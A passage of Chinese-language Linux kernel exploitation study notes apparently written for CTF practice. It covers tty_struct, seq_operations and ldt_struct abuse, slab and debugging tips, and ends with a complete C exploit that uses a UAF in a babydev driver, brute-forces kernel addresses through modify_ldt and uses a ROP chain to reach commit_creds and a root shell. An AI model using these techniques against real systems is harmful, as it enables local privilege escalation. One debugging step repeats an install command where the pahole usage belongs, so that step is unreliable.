try_decompress '\3757zXZ\000' abcde unxz
try_decompress 'BZh'          xy    bunzip2
try_decompress '\135\0\0\0'   xxx   unlzma
try_decompress '\211\114\132' xy    'lzop -d'
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```

用法如下：
```shell
./extract-vmlinux ./bzImage > vmlinux
```

其实咱们还有一种方法，上面的这个有时候可能不好使，那么我们就可以使用`vmlinux-to-elf`这个工具来帮助我们解压`bzImage`文件。

用法如下：
```shell
./vmlinux-to-elf <input_kernel.bin> <output_kernel.elf>
```

### 21.ptmx伪终端与tty_struct

在 `/dev` 下有一个伪终端设备 `ptmx` ，在我们打开这个设备时内核中会创建一个 `tty_struct` 结构体，与其他类型设备相同，`tty`驱动设备中同样存在着一个存放着函数指针的结构体 `tty_operations`


那么我们不难想到的是我们可以通过 `UAF` 劫持 /dev/ptmx 这个设备的 `tty_struct` 结构体与其内部的 `tty_operations` 函数表，那么在我们对这个设备进行相应操作（如`write`、`ioctl`）时便会执行我们布置好的恶意函数指针

由于没有开启`SMAP`保护，故我们可以在用户态进程的栈上布置`ROP`链与`fake tty_operations`结构体

结构体`tty_struct`位于`include/linux/tty.h`中，`tty_operations`位于`include/linux/tty_driver.h`中

我们可以观察到，在我们调用`tty_operations->write`时，其rax寄存器中存放的便是`tty_operations`结构体的地址。

### 22.Linux 内核保护（补档一）
我们已无法直接分配到 'cred_jar' 中的 'object'，这是因为 'cred_jar'(即cred结构体) 在创建时设置了 SLAB_ACCOUNT 标记，在 CONFIG_MEMCG_KMEM=y 时（默认开启）cred_jar 不会再与相同大小的 kmalloc-192 进行合并,使用独立的slub分配器。

来看内核源码 4.4.72 kernel/cred.c

```c
void __init cred_init(void)
{
	/* allocate a slab in which we can store credentials */
	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
}
```

但是在后来的4.5版本中

```c
void __init cred_init(void)
{
	/* allocate a slab in which we can store credentials */
	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}
```

可以看到，`cred_jar`使用了单独的`slub`分配器。

### 23.调试之美
```rust
// 和羹之美，在於合异，上下之益，在能相济。
//										——《三国志·魏书·诸夏侯曹传》
```

#### panic代码位置确认

当出现内核`panic`时，如果我们有内核源码，或者更加准确的说，发生`panic`的内核是我们进行编译控制的，那么我们可以准确地在源码级别上确定发生`panic`的代码位置。

##### 使用addr2line工具

1. 首先安装必要的Linux套件。

```shell
sudo apt-get install binutils
```

2. 使用以下命令格式运行`addr2line`：

```shell
addr2line -e /path/to/vmlinux -i <address>
```

3. 在此处，将 /path/to/vmlinux 替换为 vmlinux 文件的实际路径，并将 <address> 替换为我们想要查找的地址，例如 ffffffff81382acd。

```shell
addr2line -e /usr/src/linux/vmlinux -i ffffffff81382acd
```

```rust
// 莫道调试路漫漫, 愿效si洞石穿。 
```

#### 内核结构体大小确认

如果我们想知道`Linux`内核中某些结构体的大小和相关的配置选项信息，我们该怎么做呢？

#### 获取当前内核版本编号

```shell
uname -r
```

##### 使用`pahole`工具

`pahole`是`dwarves`包的一部分，它可以显示编译出的二进制文件中结构体的布局和大小。这是一个非常方便的工具，特别是当我们有编译好的内核或模块，并且包含了调试信息时。

1. 首先，安装`dwarves`包：

```shell
sudo apt-get install dwarves
```

2. 然后，对于编译好的内核或模块（假设它是`vmlinux`），使用`pahole`：

```shell
sudo apt-get install dwarves
```

3. 但是很多时候我们直接获得的内核镜像并没有开启调试选项，所以有时候还需要我们自行编译内核。

#### 24. 内核编译流程

首先不可避免的就是我们要有一个`Makefile`。

```shell
ifneq ($(KERNELRELEASE),)
obj-m := hello.o
else
PWD := $(shell pwd)
KDIR := $(PWD)/../linux-4.4.72
all:
	make -C $(KDIR) M=$(PWD) modules
clean:	
	rm -rf *.o *.ko *.mod.c *.symvers *.order *.c~ *~
endif
```

然后在`make menuconfig`界面中：

```rust
Kernel hacking
--> Compile-time checks and compiler options
    --> Compile the kernel with debug info	//将这个编译选项选中
```

然后使用`make`开始编译，然后找到`vmlinux`文件就可以了。

#### 25. 驱动编译流程

虽说这种情况并不是太多，但是稍微会一点驱动编程还是应该的。

##### Makefile编写

1. 预备工作

```shell
cd linux-4.4.72
make menuconfig # 进行编译选项控制,咱们基本上都应该需要开启调试功能，要不然没事编译它干什么呢？
```

```rust
Kernel hacking
--> Compile-time checks and compiler options
    --> Compile the kernel with debug info	//将这个编译选项选中
```

2. Makefile编写 

```shell
# Makeflie文件和驱动源码文件在同一层级
obj-m += hello.o

all:
	make -C /path/to/linux-4.4.72 M=$(PWD) modules

clean:
	make -C /path/to/linux-4.4.72 M=$(PWD) clean
```

### 26.核心绑定操作

`slub allocator` 会优先从当前核心的 `kmem_cache_cpu` 中进行内存分配，在多核架构下存在多个 `kmem_cache_cpu` ，由于进程调度算法会保持核心间的负载均衡，因此我们的 `exp` 进程可能会被在不同的核心上运行，这也就导致了利用过程中 `kernel object` 的分配有可能会来自不同的 `kmem_cache_cpu` ，这使得利用模型变得复杂，也降低了漏洞利用的成功率。

因此为了保证漏洞利用的稳定，我们需要将我们的进程绑定到特定的某个`CPU` 核心上，这样 `slub allocator` 的模型对我们而言便简化成了 `kmem_cache_node` + `kmem_cache_cpu` ，我们也能更加方便地进行漏洞利用。

现给出如下将 `exp` 进程绑定至指定核心的模板：
```c
#include <sched.h>

/* to run the exp on the specific core only */
void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}
```

### 27.seq_operations结构体利用

`4.15`版本与其之后的几个版本的内核不仅引入了`KPTI`保护，同时当中似乎在 `open("/dev/ptmx")` 时所分配的第一个结构第都不是 `tty_struct`(具体为啥不知道)，但这一次我们似乎不能够通过 `tty_struct` 来泄露内核基址与劫持内核执行流了，不过在内核当中仍然有着数量相当可观的有用的结构体供我们利用,接下来让我们隆重欢迎`seq_operations`结构体大大。

`seq_operations` 是一个十分有用的结构体，我们不仅能够通过它来泄露内核基址，还能利用它来控制内核执行流。

当我们打开一个 `stat` 文件时（如 `/proc/self/stat` ）便会在内核空间中分配一个 `seq_operations` 结构体，该结构体定义于 `/include/linux/seq_file.h` 当中，只定义了四个函数指针，如下：

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```

当我们 `read` 一个 `stat` 文件时，内核会调用其 `proc_ops` 的 `proc_read_iter` 指针，其默认值为 `seq_read_iter()` 函数，定义于 `fs/seq_file.c` 中，注意到有如下逻辑：

```c
ssize_t seq_read_iter(struct kiocb *iocb, struct iov_iter *iter)
{
    struct seq_file *m = iocb->ki_filp->private_data;
    //...
    p = m->op->start(m, &m->index);
    //...
```

即其会调用 `seq_operations 中的 start` 函数指针，那么我们只需要控制 `seq_operations->start` 后再读取对应 stat 文件便能控制内核执行流。

> 至于想知道当调用`start`时各个寄存器的情况，可以将`start`覆写为一个`gadget`，打个断点，测试一下，不过注意`gadget`不要影响寄存器情况。

### 28.ldt_struct结构体利用

`ldt` 即局部段描述符表（`Local Descriptor Table`），其中存放着进程的段描述符，段寄存器当中存放着的段选择子便是段描述符表中段描述符的索引。

该结构体定义于内核源码 `arch/x86/include/asm/mmu_context.h` 中，如下：

```c
struct ldt_struct {
    /*
     * Xen requires page-aligned LDTs with special permissions.  This is
     * needed to prevent us from installing evil descriptors such as
     * call gates.  On native, we could merge the ldt_struct and LDT
     * allocations, but it's not worth trying to optimize.
     */
    struct desc_struct    *entries;
    unsigned int        nr_entries;

    /*
     * If PTI is in use, then the entries array is not mapped while we're
     * in user mode.  The whole array will be aliased at the addressed
     * given by ldt_slot_va(slot).  We use two slots so that we can allocate
     * and map, and enable a new LDT without invalidating the mapping
     * of an older, still-in-use LDT.
     *
     * slot will be -1 if this LDT doesn't have an alias mapping.
     */
    int            slot;
};
```

该结构体大小为 `0x10`，应当从 `kmalloc-16` 中取。

#### `desc_struct` 结构体

`ldt_struct` 结构体中有一成员 `entries` 为 指向`desc_struct` 结构体的指针，即段描述符，定义于 `/arch/x86/include/asm/desc_defs.h` 中，如下：

```c
/* 8 byte segment descriptor */
struct desc_struct {
    u16    limit0;
    u16    base0;
    u16    base1: 8, type: 4, s: 1, dpl: 2, p: 1;
    u16    limit1: 4, avl: 1, l: 1, d: 1, g: 1, base2: 8;
} __attribute__((packed));
```

> 低 32 位

> 31~16	15~0
> 段基址的 15~0 位	段界限的 15~0 位
> 段基址 32 位，段界限为 20 位，其所能够表示的地址范围为：

> 段基址 + （段粒度大小 x （段界限+1）） - 1

> 高 32 位

> 31~24	23	22	21	20	19~16	15	14~13	12	11~8	7~0
> 段基址的 31~24 位	G	D/B	L	AVL	段界限的 19 ~16 位	P	DPL	S	TYPE	段基址的 23~16 位
> 各参数便不在此赘叙了，具其构造可以参见intel对全局描述符表的说明定义。

#### modify_ldt 系统调用
`Linux` 提供给我们一个叫 `modify_ldt` 的系统调用，通过该系统调用我们可以获取或修改当前进程的 `LDT`

我们来看一下在内核中这个系统调用是如何操纵 `ldt` 的，该系统调用定义于 `/arch/x86/kernel/ldt.c` 中，如下： 

```c
SYSCALL_DEFINE3(modify_ldt, int , func , void __user * , ptr ,
        unsigned long , bytecount)
{
    int ret = -ENOSYS;

    switch (func) {
    case 0:
        ret = read_ldt(ptr, bytecount);
        break;
    case 1:
        ret = write_ldt(ptr, bytecount, 1);
        break;
    case 2:
        ret = read_default_ldt(ptr, bytecount);
        break;
    case 0x11:
        ret = write_ldt(ptr, bytecount, 0);
        break;
    }
    /*
     * The SYSCALL_DEFINE() macros give us an 'unsigned long'
     * return type, but tht ABI for sys_modify_ldt() expects
     * 'int'.  This cast gives us an int-sized value in %rax
     * for the return code.  The 'unsigned' is necessary so
     * the compiler does not try to sign-extend the negative
     * return codes into the high half of the register when
     * taking the value from int->long.
     */
    return (unsigned int)ret;
}
```

我们应当传入三个参数：`func`、`ptr`、`bytecount`，其中 `ptr` 应为指向 `user_desc` 结构体的指针，参照 `man page` 可知该结构体如下：

```c
struct user_desc {
    unsigned int  entry_number;
    unsigned int  base_addr;
    unsigned int  limit;
    unsigned int  seg_32bit:1;
    unsigned int  contents:2;
    unsigned int  read_exec_only:1;
    unsigned int  limit_in_pages:1;
    unsigned int  seg_not_present:1;
    unsigned int  useable:1;
};
```

#### read_ldt()：内核任意地址读

定义于 `/arch/x86/kernel/ldt.c`中，我们主要关注如下逻辑：

```c
static int read_ldt(void __user *ptr, unsigned long bytecount)
{
//...
    if (copy_to_user(ptr, mm->context.ldt->entries, entries_size)) {
        retval = -EFAULT;
        goto out_unlock;
    }
//...
out_unlock:
    up_read(&mm->context.ldt_usr_sem);
    return retval;
}
```

在这里会**直接调用 copy_to_user 向用户地址空间拷贝数据**，我们不难想到的是若是能够控制 `ldt->entries` 便能够完成内核的任意地址读，由此泄露出内核数据。

#### write_ldt()：分配新的 ldt_struct 结构体

定义于 `/arch/x86/kernel/ldt.c`中，我们主要关注如下逻辑：

```c
static int write_ldt(void __user *ptr, unsigned long bytecount, int oldmode)
{
    //...
    error = -EINVAL;
    if (bytecount != sizeof(ldt_info))
        goto out;
    error = -EFAULT;
    if (copy_from_user(&ldt_info, ptr, sizeof(ldt_info)))
        goto out;

    error = -EINVAL;
    if (ldt_info.entry_number >= LDT_ENTRIES)
        goto out;

    //...

    old_ldt       = mm->context.ldt;
    old_nr_entries = old_ldt ? old_ldt->nr_entries : 0;
    new_nr_entries = max(ldt_info.entry_number + 1, old_nr_entries);

    error = -ENOMEM;
    new_ldt = alloc_ldt_struct(new_nr_entries);
    if (!new_ldt)
        goto out_unlock;

    if (old_ldt)
        memcpy(new_ldt->entries, old_ldt->entries, old_nr_entries * LDT_ENTRY_SIZE);

    new_ldt->entries[ldt_info.entry_number] = ldt;

    //...

    install_ldt(mm, new_ldt);
    unmap_ldt_struct(mm, old_ldt);
    free_ldt_struct(old_ldt);
    error = 0;

out_unlock:
    up_write(&mm->context.ldt_usr_sem);
out:
    return error;
}
```

我们注意到在 `write_ldt()` 当中会使用 `alloc_ldt_struct()` 函数来为新的 `ldt_struct` 分配空间，随后将之应用到进程(这句话说的确实对，实际上一般情况下使用的都是全局描述符表gdt, 所以修改了一般情况下也没什么事。)， `alloc_ldt_struct()` 函数定义于 `arch/x86/kernel/ldt.c` 中，我们主要关注如下逻辑：
```c
/* The caller must call finalize_ldt_struct on the result. LDT starts zeroed. */
static struct ldt_struct *alloc_ldt_struct(unsigned int num_entries)
{
    struct ldt_struct *new_ldt;
    unsigned int alloc_size;

    if (num_entries > LDT_ENTRIES)
        return NULL;

    new_ldt = kmalloc(sizeof(struct ldt_struct), GFP_KERNEL);
//...
```

可以看到的是，`ldt_struct` 结构体通过 `kmalloc()` 从 `kmalloc-xx` 中取，由此我们可以得到如下解题思路：

> 先分配一个 object 后释放
> 通过 write_ldt() 将这个 object 重新取回
> 通过 UAF 更改 ldt->entries
> 通过 read_ldt() 搜索内核地址空间

#### 泄露内核基址

接下来我们考虑如何利用 `modify_ldt` 系统调用来泄露内核基址，虽然我们可以控制 `entries` 指针从而通过 `read_ldt()` 读出内核内存上的数据，但我们该从哪读？重新阅读 `read_ldt()` 的源码，我们不难想到这样一种思路：

我们可以 **直接爆破内核地址**：对于无效的地址，`copy_to_user` 会返回非 0 值，此时 `read_ldt()` 的返回值便是 `-EFAULT`，当 `read_ldt()` 执行成功时，说明我们命中了内核空间，所以我们可以通过多次修改`ldt_struct->entries`并`read_ldt()`，直到读取成功，就找到了有效的地址。

`Hardened usercopy` 是对 copy_*_user 的一个安全性检查, 简单来说就是内核指针:

```rust
// 1. 不允许为空指针
// 2. 不允许指向 kmalloc 分配的零长度区域
// 3. 不允许指向内核代码段
// 4. 如果指向 Slab 则不允许超过 Slab 分配器分配的长度
// 5. 如果指向非 Slab 的堆, 则不允许跨页
// 6. 如果涉及到栈则不允许超出当前进程的栈空间
否则, 内核会 panic.
```

例如当 `copy_to_user()` 的源地址为内核 `.text` 段（`_stext`, `_etext`）时会引起 `kernel panic`，因此我们不能直接爆破 `.text` 端的基址。

这样一来，我们在搜索堆空间的时候，如果将`bytecount`设置的比较大，则会引发`panic`，如果比较小 (如 8), 则效率低。（但具体要怎么做还是要看具体情况具体分析）

不过, 有一种非常妙的方法可以绕过 `Hardened Usercopy`.

在 `fork()` 的调用链中, 会执行 `ldt_dup_context()`, 将父进程的 `ldt` 拷贝到子进程:

```c
/*
 * Called on fork from arch_dup_mmap(). Just copy the current LDT state,
 * the new task is not running, so nothing can be installed.
 */
int ldt_dup_context(struct mm_struct *old_mm, struct mm_struct *mm)
{
  struct ldt_struct *new_ldt;
  int retval = 0;

  if (!old_mm)
    return 0;

  mutex_lock(&old_mm->context.lock);
  if (!old_mm->context.ldt)
    goto out_unlock;

  new_ldt = alloc_ldt_struct(old_mm->context.ldt->nr_entries);
  if (!new_ldt) {
    retval = -ENOMEM;
    goto out_unlock;
  }

  memcpy(new_ldt->entries, old_mm->context.ldt->entries,
         new_ldt->nr_entries * LDT_ENTRY_SIZE);
  finalize_ldt_struct(new_ldt);

  retval = map_ldt_struct(mm, new_ldt, 0);
  if (retval) {
    free_ldt_pgtables(mm);
    free_ldt_struct(new_ldt);
    goto out_unlock;
  }
  mm->context.ldt = new_ldt;

out_unlock:
  mutex_unlock(&old_mm->context.lock);
  return retval;
}
```

可以看到, 调用 `alloc_ldt_struct` 新分配了一个 `struct ldt_struct new_ldt`, 然后用 `memcpy()` 将 `old_ldt->entries` 上的数据拷贝到 `new_ldt->entries`. `new_ldt->entries` 地址是 `vmalloc` 空间上的, 可以正常 `copy_to_user()`. 所以父进程修改一下 `ldt_struct->entries`, 然后 `fork()` 一个子进程, 在子进程里 `read_ldt` 就绕过了非法拷贝的检查.

需要指出, 爆破 `page_offset_base` 不需要用这个技巧, 只需要设置 `bytecount` 为 `8` 即可.

那么这里我们可以考虑更改思路——搜索线性映射区，即爆破内核堆基址，之后再通过 `read_ldt()` **在堆上读出一些可用的内核指针从而泄露出内核基址**。

没开 `kaslr` 时, `page_offset_base` 是常量 `0xffff888000000000`, 开了 `kaslr` 后, 会在 `kernel_randomize_memory()` 中加上一个随机偏移, 这个偏移对齐 `PUD_MASK`, 即 
$$
2^{\text{30}}
$$
. 所以我们可以从 `0xffff888000000000` 开始, 步长 `0x40000000` 去爆破 `page_offset_base`.

一旦得到了 `page_offset_base`, 那么我们可以在上面找到稳定的内核函数指针, 如 `page_offset_base + 0x9d000` 的地方存储着 `secondary_startup_64()` 函数的地址, 该函数地址在没开 `kaslr` 下是 `0xffffffff81000040`, 于是我们可以修改一下 `ldt_struct->entries`, 然后 `read_ldt()`

`direct mapping area`，即线性映射区（不是线代那个线性映射），这块区域的线性地址到物理地址空间的映射是连续的，`kmalloc` 便从此处分配内存，其起始地址为 `page_offset_base`。

而 `vmalloc` 则从 `vmalloc/ioremap space`分配内存，起始地址为 `vmalloc_base`，这一块区域到物理地址间的映射是不连续的。

- 这里贴一个具体的利用代码：


```c
#define _GNU_SOURCE
#include <asm/ldt.h>
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <semaphore.h>
#include <poll.h>
#include <sys/xattr.h>
#include <sched.h>

#define POP_RDI_RET 0xffffffff810029a1
#define COMMIT_CREDS 0xffffffff810a0700
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a00abd
#define INIT_CRED 0xffffffff82250ec0

size_t commit_creds = NULL, prepare_kernel_cred = NULL, kernel_offset = 0, kernel_base = 0xffffffff81000000;


int         seq_fd;
size_t      seq_data[0x10];
size_t      pop_rdi_ret;
size_t      init_cred;
size_t      swapgs_restore_regs_and_return_to_usermode;
size_t      add_rsp_0x40_ret;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootShell(void)
{
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    int                 fd[10];

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    saveStatus();

    // construct UAF
    fd[0] = open("/dev/babydev", O_RDWR);
    fd[1] = open("/dev/babydev", O_RDWR);
    fd[2] = open("/dev/babydev", O_RDWR);

    ioctl(fd[0], 0x10001, 0x10);
    write(fd[0], "arttnba3", 8);
    close(fd[0]);

    // seek for kernel heap addr
    struct user_desc     desc;
    size_t                 page_offset_base = 0xffff888000000000;
    int                 retval;

    desc.base_addr = 0xff0000;
    desc.entry_number = 0x8000 / 8;
    desc.limit = 0;
    desc.seg_32bit = 0;
    desc.contents = 0;
    desc.limit_in_pages = 0;
    desc.lm = 0;
    desc.read_exec_only = 0;
    desc.seg_not_present = 0;
    desc.useable = 0;
    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc));
    while(1)
    {
        write(fd[1], &page_offset_base, 8);
        retval = syscall(SYS_modify_ldt, 0, &desc, 8);// final param should be 8 there
        if (retval >= 0)
            break;
        page_offset_base += 0x2000000;
    }
    printf("\033[32m\033[1m[+] Found page_offset_base: \033[0m%lx\n", page_offset_base);

    // read kernel addr by searching the kernel heap
    size_t search_addr;
    int pipe_fd[2];
    size_t *buf;

    pipe(pipe_fd);
    buf = (size_t*) mmap(NULL, 0x8000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    search_addr = page_offset_base;
    kernel_base = 0;
    while(1)
    {
        write(fd[1], &search_addr, 8);
        retval = fork();
        if (!retval)    // child
        {
            syscall(SYS_modify_ldt, 0, buf, 0x8000);

            for (int i = 0; i < 0x1000; i++)
            {
                if ((buf[i] >= 0xffffffff81000000)  && ((buf[i] & 0xfff) == 0x030))
                {
                    kernel_base = buf[i] -  0x030;
                    kernel_offset = kernel_base - 0xffffffff81000000;
                    printf("\033[32m\033[1m[+] Found kernel base: \033[0m%p\033[32m\033[1m at \033[0m%p\n", kernel_base, search_addr);
                    printf("\033[32m\033[1m[+] Kernel offset: \033[0m%p\n", kernel_offset);
                    break;
                }
            }

            write(pipe_fd[1], &kernel_base, 8);
            exit(0);
        }
        wait(NULL);
        read(pipe_fd[0], &kernel_base, 8);
        if (kernel_base)
            break;
        search_addr += 0x8000;
    }
    kernel_offset = kernel_base - 0xffffffff81000000;

    // re-get a UAF in kmalloc-32
    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc)); // do not let the former one make extra influences
    ioctl(fd[1], 0x10001, 32);
    close(fd[2]);

    // trigger seq_operations->start
    puts("\033[34m\033[1m[*] Triggering seq_operations->stat...\033[0m");
    seq_fd = open("/proc/self/stat", O_RDONLY);

    size_t target_addr = 0xffffffff81079210 + kernel_offset;   //add rsp, 0x100; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15

    pop_rdi_ret = POP_RDI_RET + kernel_offset;
    init_cred = INIT_CRED + kernel_offset;
    commit_creds = COMMIT_CREDS + kernel_offset;
    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 14 + kernel_offset;
    add_rsp_0x40_ret = 0xffffffff810996a6 + kernel_offset;

    write(fd[1], &target_addr, 8);
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   add_rsp_0x40_ret;"
        "mov r12,   commit_creds;"
        "mov rbp,   init_cred;"
        "mov rbx,   pop_rdi_ret;"
        "mov r11,   0x66666666;"
        "mov r10,   swapgs_restore_regs_and_return_to_usermode;"
        "mov r9,    0x88888888;"
        "mov r8,    0x99999999;"
        "xor rax,   rax;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   8;"
        "mov rsi,   rsp;"
        "mov rdi,   seq_fd;"
        "syscall"
    );
    getRootShell();
}
```
